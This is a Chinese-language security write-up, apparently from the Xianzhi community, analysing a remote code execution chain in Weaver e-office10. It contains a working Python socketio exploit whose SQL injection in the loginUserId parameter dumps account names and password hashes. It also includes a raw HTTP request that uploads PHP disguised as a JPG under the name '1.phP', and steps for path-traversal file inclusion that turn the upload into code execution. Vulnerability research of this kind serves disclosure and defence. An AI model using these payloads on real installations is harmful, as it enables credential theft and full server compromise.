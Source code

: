 

# 泛微 e-office10 远程代码执行漏洞分析 - 先知社区

泛微 e-office10 远程代码执行漏洞分析

* * *

根据微步描述知道是im服务的洞`https://mp.weixin.qq.com/s/4om8iuGpAKWPjEocBB4lKQ`

```plain
2、临时修复方案：

1.使用防护类设备对相关资产进行SQL注入、文件包含等攻击的防护；
2.在确认不影响业务的情况下可临时关闭im服务，或使用网络ACL策略限制im服务的公网访问。
```

[![](assets/1701606421-0f518ff6588e2e68f43c1d326db97f2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201145-7722c0bc-8eb0-1.png)

[![](assets/1701606421-6d326128f9ad8637d0722051a06ea575.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201149-7956b8fc-8eb0-1.png)

得到nodejs的server路径。没混淆什么的。diff一下

知道是`getPersonalOfflineRecord`的问题

[![](assets/1701606421-fbf02069a388dd929891da90aa859f66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201153-7ba2c934-8eb0-1.png)

socket事件为`outline recordLength`时触发。

[![](assets/1701606421-cc4ab89f40c4c8e1bfdd0f48cda2fbd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201159-7f07bf58-8eb0-1.png)

```plain
loginUserId是query传进来的
```

[![](assets/1701606421-b68e5234dbb3a9a366f13e0422bf4c50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201238-96bef2a6-8eb0-1.png)

```plain
继续跟connectToSocket
```

[![](assets/1701606421-78b9aca7bec32a1d23a26bb2371e82f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201244-9a488824-8eb0-1.png)

这里的`/web`是`websocket`的`namespace`

`outline recordLength`是事件

python 连接websocket 代码如下

有个坑。。。`socketio`报错可能需要装特定版本才能连上。不然会有`OPEN packet not returned by server`报错

`pip install python-engineio==3.14.2 python-socketio==4.6.0`

```plain
import socketio

sio = socketio.Client()

@sio.on('connect', namespace='/web')
def connect():
    print('Connected to the server')
    sio.emit('outline recordLength', None, namespace='/web')
#发送事件
@sio.on('send recordLength', namespace='/web')
def on_message(data):
    print('Received data: ' + str(data))
#用来接收返回值

sio.connect('http://192.168.0.139:4986?loginUserId=admin&loginDeptId=0&loginRoleId=1', namespaces=['/web'])

try:
    sio.wait()
except KeyboardInterrupt:
    pass
finally:
    sio.disconnect()
```

现在主要来看`outline recordLength`事件的处理

`personalRecordTableNameArray`为查询`information_schema.tables`中`chat_personal_record`开头的表

chat\_personal\_record开头的表默认只有`chat_personal_record`。需要自己新建账号。聊天几句就会创建`chat_personal_record_1`等。后面有用。

[![](assets/1701606421-29f88253dc37e998bf56327d1d3cc3ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201256-a13d5150-8eb0-1.png)

这里就判断了。数据库中的表是否有`chat_personal_record_0、1、2、3`。如果没有就不会继续执行变量赋值了。下面的所有`sql`都依赖于这

[![](assets/1701606421-b1fc96526343b84884f0d88a39e72a9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201301-a4370a72-8eb0-1.png)

之后就是直接带入sql执行了。然后返回值。

[![](assets/1701606421-97852c6435d7fc08fe9c5c6da13a04d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201305-a6839660-8eb0-1.png)

最终exp如下

```plain
import socketio

sio = socketio.Client()

@sio.on('connect', namespace='/web')
def connect():
    print('Connected to the server')
    sio.emit('outline recordLength', None, namespace='/web')

@sio.on('send recordLength', namespace='/web')
def on_message(data):
    print('Received data: ' + str(data))


sio.connect('http://192.168.0.139:4986?loginUserId=aa",`chat_object`) union select 1,2,3,group_concat(user_accounts,0x7e,password,0x7e) ,5,6,0,8,9,10,11,12 from user%23&loginDeptId=0&loginRoleId=1', namespaces=['/web'])

try:
    sio.wait()
except KeyboardInterrupt:
    pass
finally:
    sio.disconnect()
```

[![](assets/1701606421-4bded688de7f94162f1d1819bc7fac5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201311-aa160ac4-8eb0-1.png)

这里password是md5(unix)。要解。解不出来就没用。或者还有其他的接口可以直接MD5登录?

登录后之后文件包含利用。长亭之前也发过一个。抓过接口。

```plain
POST /eoffice10/server/public/api/welink/welink-move HTTP/1.1
Host: 192.168.0.139:8010
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.139:8010/eoffice10/client/web/system/user/manage
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvQIRygBK
Content-Length: 8003

------WebKitFormBoundaryvQIRygBK
Content-Disposition: form-data; name="file"; filename="1.phP"
Content-Type: image/png

jpg文件内容+后面<?php xxxx
------WebKitFormBoundaryvQIRygBK--
```

只有内容校验。jpg的。但是直接php不能上传 有过滤

并且上传在attachment目录不能直接访问

至于为啥这里要用phP下面再说

[![](assets/1701606421-30d2fbbf4eac531163ebca637c03e594.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201316-ad545d26-8eb0-1.png)

返回包对应的attachment目录为`attachment\2023\11\29\8de8701f16a64d88f5fda3ad1b3f5375\1.phP`

```plain
HTTP/1.1 200 OK
Date: Wed, 29 Nov 2023 10:14:22 GMT
Server: Apache
Cache-Control: no-cache, private
Connection: close
Content-Type: application/json
Content-Length: 2702

{"status":1,"data":[{"attachmentId":"8de8701f16a64d88f5fda3ad1b3f5375","attachmentName":"1.phP","attachmentThumb":"data:image\/jpg;base64,\/xxxxxxxx","attachmentSize":7841,"attachmentType":"jpg","attachmentMark":1}],"runtime":"0.170"}
```

这里文件上传就搞定了。接着看文件包含。搜`require(.*?)\$`搜到`getArrayFromPhp`

[![](assets/1701606421-508fcdca2babeabe1827713381086411.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201321-b037d00e-8eb0-1.png)

这里看`getLangFileFullPath`的实现和上层调用`$local, $module`是否可控

[![](assets/1701606421-bb1cd475d0e11fd2fd965f24955c0401.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201325-b2a22358-8eb0-1.png)

先看方法实现。`$this->serverLangSuffix`是`.php` 并且`getServerLangFolder`是获取`eoffice10\server\resources`目录。所以只要`$filename`可控。就能`../../`配合1.php文件包含。由于泛微E-office只能Windows下部署(官网试用只有exe。咱也不知道有无Linux版)

[![](assets/1701606421-fa08e1ac750ff89280bc99a368ca880c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201331-b60b76d4-8eb0-1.png)

由于Windows下大小写不分。上传`1.phP`。包含`1.php`可以包含到。。ok接着回头看`getPhpLangArrayByModule`上层调用的`$module`

继续跟进`getServerStaticLangsByModule`

[![](assets/1701606421-545895358f33d5566bfa087dc5d1e0b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201337-b9a45f04-8eb0-1.png)

module可控。并且有定义路由

[![](assets/1701606421-9a8b88f4d07cdfcb26997943d9e43942.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201341-bc033586-8eb0-1.png)

带上登录的Authorization直接文件包含

[![](assets/1701606421-1d386186b50073a279ff59ac761674f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201345-be3fa42e-8eb0-1.png)
